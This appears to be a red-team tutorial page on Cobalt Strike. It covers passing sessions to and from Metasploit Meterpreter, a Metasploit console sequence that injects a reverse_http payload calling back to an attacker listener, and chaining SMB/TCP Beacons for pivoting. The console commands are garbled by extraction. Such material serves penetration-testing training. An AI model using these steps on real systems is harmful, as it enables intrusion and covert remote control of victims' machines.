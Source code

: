 #### Spawn Meterpreter from Beacon

Cobalt Strike’s session passing features target listeners. A [listener](https://www.cobaltstrike.com/help-listener-management) is a name tied to a payload handler and its configuration information. A foreign listener is an alias for a payload handler located elsewhere. Cobalt Strike can pass sessions to the Metasploit Framework with foreign listeners. To create a foreign listener for Meterpreter:

1\. Go to **Cobalt Strike** -> **Listeners**

2\. Press **Add**

3\. Set the Payload type to windows/foreign/reverse\_https for HTTPS Meterpreter. Cobalt Strike also has reverse\_http and reverse\_tcp foreign listeners too.

4\. Set The Host and Port of the listener to the LHOST and LPORT of your Meterpreter handler.

5\. Press **Save**

You now have a Cobalt Strike listener that refers to your Metasploit Framework payload handler. You can use this listener with any of Cobalt Strike’s features. To pass a session from Beacon, go to **\[beacon]** -> **Spawn** and choose your foreign listener.

#### Spawn Beacon from Meterpreter

To spawn a Beacon from a Meterpreter session use the payload\_inject exploit to deliver your Beacon. Here are the steps to do this:

1\. Use the exploit/windows/local/payload\_inject module

2\. Set **PAYLOAD** to windows/meterpreter/reverse\_http for an HTTP Beacon. Set PAYLOAD to windows/meterpreter/reverse\_https for an HTTPS Beacon.

3\. Set **LHOST** and **LPORT** to point to your Cobalt Strike listener.

4\. Set **DisablePayloadHandler** to True.

5\. Set **SESSION** to the session ID of your Meterpreter session

And, here’s what this looks like in the Metasploit Framework console:

| <p><code>use exploit/windows/local/payload_injectset</code> </p><p><code>PAYLOAD windows/meterpreter/reverse_httpset</code> </p><p><code>LHOST [IP address of compromised system]</code></p><p><code>set LPORT 80set SESSION 1</code></p><p><code>set DisablePayloadHandler True</code></p><p><code>exploit –j</code></p> |
| ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |

### Peer-to-Peer Listeners

Peer-to-Peer (P2P) listeners allow Beacons to link their communications together to form a chain. The P2P types in Cobalt Strike are **TCP** and **SMB**.

Linking Beacons is especially useful when it comes to pivoting, privilege escalation and any other situation where you need to spawn an additional Beacon payload. They help keep the number of direct outbound connections to your attacking infrastructure low and for machines and/or principals that can't send HTTP/S outbound at all.

Creating P2P listeners can be done in the **Listeners** menu, by selecting the **TCP** or **SMB** Beacon payload type. These listeners integrate into all the relevant Cobalt Strike workflows such as `spawn`, `spawnas`, `inject` and `jump`; and payloads for these listeners can also be generated in the same way from the **Attacks** menu.

If executing a P2P payload on a target manually, it won't appear in the UI until the `link` (for SMB Beacons) or `connect` (for TCP Beacons) command is used. You can also `unlink` P2P Beacons and then use `link` again from another Beacon to reorganise the chain.

